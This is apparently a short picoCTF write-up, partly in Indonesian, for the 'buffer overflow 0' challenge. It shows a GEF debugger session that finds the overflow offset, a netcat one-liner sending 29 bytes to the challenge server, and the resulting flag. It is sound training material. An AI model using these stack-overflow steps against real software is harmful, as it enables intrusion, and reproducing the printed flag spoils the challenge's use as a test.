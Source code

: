 <h1>buffer overflow 0</h1>
<h3>Description</h3>
<p>Let's start off simple, can you overflow the correct buffer? The program is available <a href='https://artifacts.picoctf.net/c/174/vuln'>here</a>. You can view source <a href='https://artifacts.picoctf.net/c/174/vuln.c'>here</a>.
Connect using:
nc saturn.picoctf.net 61170</p>
<h3>Solution</h3>
<p>Check overflow dari strcpy</p>

```console
gef➤  pattern create 50
[+] Generating a pattern of 50 bytes (n=4)
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama
[+] Saved as '$_gef0'
gef➤  r <<< aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama
Starting program: /home/xisco/Downloads/vuln <<< aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama
$edi   : 0xf7ffcba0  →  0x00000000
$eip   : 0x61616168 ("haaa"?)
$eflags: [zero carry parity adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63 
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffd340│+0x0000: "iaaajaaakaaalaaama"	 ← $esp
0xffffd344│+0x0004: "jaaakaaalaaama"
0xffffd348│+0x0008: "kaaalaaama"
0xffffd34c│+0x000c: "laaama"
0xffffd350│+0x0010: 0x1700616d ("ma"?)
0xffffd354│+0x0014: "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama"
0xffffd358│+0x0018: "baaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama"
0xffffd35c│+0x001c: "caaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama"
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x61616168
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln", stopped 0x61616168 in ?? (), reason: SIGSEGV
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  pattern search 0x61616168
[+] Searching for '68616161'/'61616168' with period=4
[+] Found at offset 28 (little-endian search) likely
```

<p>Overflow pada offset 28, lanjut eksekusi offset 29</p>

```console
root@xisco-VirtualBox:/home/xisco/Downloads# python3 -c "print('a'*29)" | nc saturn.picoctf.net 61170
Input: picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```
<h3>Flag</h3>
<pre>
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
</pre>
